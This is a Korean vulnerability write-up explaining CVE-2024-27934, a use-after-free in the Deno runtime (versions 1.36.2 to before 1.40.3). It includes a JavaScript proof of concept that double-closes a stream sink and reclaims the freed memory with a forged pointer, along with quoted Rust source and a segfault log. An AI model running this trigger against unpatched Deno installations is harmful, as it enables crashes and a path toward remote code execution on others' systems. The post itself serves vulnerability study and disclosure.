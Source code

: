 ```yaml
---
title: "[하루한줄] CVE-2024-27934: Deno의 Use-After-Free로 인한 RCE 취약점"
author: pwndorei
tags: [Deno, use-after-free, RCE, javascript]
categories: [1day1line]
date: 2024-04-17 20:00:00
cc: true
index_img: /img/1day1line.png
---
```

## URL

[https://github.com/denoland/deno/security/advisories/GHSA-3j27-563v-28wf](https://github.com/denoland/deno/security/advisories/GHSA-3j27-563v-28wf)

## Target

- Deno ≥ 1.36.2
- Deno < 1.40.3

## Explain

JavaScript, TypeScript 런타임인 Deno에서 RCE가 가능한 Use-After-Free 취약점이 발생했습니다.

Deno에서는 `*const c_void`와 `external!()` 매크로로 정의되는 `ExternalPointer`를 사용하여 외부 lifetime을 가진 임의의 `void *`를 wrapping 하는 `v8::External`을 표현합니다. 이는 Rust의 lifetime safety를 무시하기 때문에 안전하지 않습니다. 따라서 Use-After-Free가 발생해도 이를 탐지하지 못하여 해당 취약점이 발생하게 되었습니다.

아래의 PoC에서는 Use-After-Free를 통해 임의 코드 실행이 가능함을 보입니다

```jsx
const ops = Deno[Deno.internal].core.ops;
const rid = ops.op_readable_stream_resource_allocate();
const sink = ops.op_readable_stream_resource_get_sink(rid);

// close
ops.op_readable_stream_resource_close(sink);
ops.op_readable_stream_resource_close(sink);

// reclaim BoundedBufferChannelInner
const ab = new ArrayBuffer(0x8058);
const dv = new DataView(ab);

// forge chunk contents
dv.setBigUint64(0, 2n, true);
dv.setBigUint64(0x8030, 0x1337c0d30000n, true);

// trigger segfault
Deno.close(rid);
```

위 코드에서는 1.38.1 버전 전까지는 `*const c_void`가, 그 이후부터는 `ExternalPointer`가 사용되는 [stream_resource](https://github.com/denoland/deno/blob/main/ext/web/stream_resource.rs)를 사용하여 Use-After-Free를 발생시킵니다.

먼저 `ops.op_readable_stream_resource_allocate`를 통해 stream resource를 할당하고 반환된 resource id를 `rid`에 저장합니다. 이 과정에서 `BoundedBufferChannelInner`가 할당됩니다. 

```jsx
pub fn op_readable_stream_resource_allocate(state: &mut OpState) -> ResourceId {
  let completion = CompletionHandle::default();
  let resource = ReadableStreamResource {
    read_queue: Default::default(),
    cancel_handle: Default::default(),
    channel: BoundedBufferChannel::default(),
    data: ReadableStreamResourceData { completion },
    size_hint: (0, None),
  };
  state.resource_table.add(resource)
}

...
struct BoundedBufferChannel {
  inner: Rc<RefCell<BoundedBufferChannelInner>>,
}
...
struct BoundedBufferChannelInner {
  buffers: [MaybeUninit<V8Slice<u8>>; BUFFER_CHANNEL_SIZE as _],
  ring_producer: u16,
  ring_consumer: u16,
  error: Option<AnyError>,
  current_size: usize,
  // TODO(mmastrac): we can math this field instead of accounting for it
  len: usize,
  closed: bool,

  read_waker: Option<Waker>,
  write_waker: Option<Waker>,

  _unsend: PhantomData<std::sync::MutexGuard<'static, ()>>,
}
```

이후 `rid`를 사용하여 호출한 아래의 `op_readable_stream_resource_get_sink`에서는 channel의 `ExternalPointer`가 생성됩니다.

```jsx
pub fn op_readable_stream_resource_get_sink(
  state: &mut OpState,
  #[smi] rid: ResourceId,
) -> *const c_void {
  let Ok(resource) = state.resource_table.get::<ReadableStreamResource>(rid)
  else {
    return std::ptr::null();
  };
  ExternalPointer::new(resource.channel.clone()).into_raw()
}
```

`op_readable_stream_resource_close`호출로 channel이 해제된 다음 `Deno.close(rid)`에서 해제된 메모리에 접근하면서 Use-After-Free가 발생합니다. PoC에서는 `ArrayBuffer`와 `DataView`를 통해 Use-After-Free가 발생하는 메모리를 재할당 받은 다음 `close` 호출 시에 함수 포인터로 참조되는 부분에 데이터로 `1337c0d30008` 를 썼고 해당 주소를 참조하면서 크래시가 발생합니다.

```
[ 6439.821046] deno[15088]: segfault at 1337c0d30008 ip 0000557b53e2fb3e sp 00007fffd485ac70 error 4 in deno[557b51714000+2d7f000] likely on CPU 12 (core 12, socket 0)
[ 6439.821054] Code: 00 00 00 00 48 85 c0 74 03 ff 50 08 49 8b 86 30 80 00 00 49 8b be 38 80 00 00 49 c7 86 30 80 00 00 00 00 00 00 48 85 c0 74 03 <ff> 50 08 48 ff 03 48 83 c4 08 5b 41 5e c3 48 8d 3d 0d 1a 59 fb 48
```